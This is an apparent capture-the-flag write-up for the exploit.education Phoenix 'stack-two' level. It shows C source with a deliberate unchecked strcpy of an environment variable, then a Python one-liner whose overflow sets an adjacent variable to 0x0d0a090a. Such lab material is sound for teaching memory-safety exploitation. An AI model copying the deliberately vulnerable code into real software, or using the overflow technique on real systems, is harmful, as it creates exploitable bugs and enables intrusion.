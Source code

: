 ## Stack Two
Stack Two takes a look at environment variables, and how they can be set.

## Source Code
```c
/*
 * phoenix/stack-two, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * If you're Russian to get to the bath room, and you are Finnish when you get
 * out, what are you when you are in the bath room?
 *
 * European!
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  char *ptr;

  printf("%s\n", BANNER);

  ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, ptr);

  if (locals.changeme == 0x0d0a090a) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n",
        locals.changeme);
  }

  exit(0);
}
```

## Challenge
The aim is to change the contents of the changeme variable to 0x0d0a090a

## Solution
Same as `stack-one`, only this time our input is passed through an environment variable.

### The Plan
Set the environment variable `ExploitEducation` to a string overflowing `locals.buffer` and writing the `little-endian` representation of `0x0d0a090a` to `locals.changeme`.

### Breaking it
```console
user@phoenix-amd64:~$ ExploitEducation=$(python -c "print 'a'*64+'\x0a\x09\x0a\x0d'") /opt/phoenix/amd64/stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```
🥳
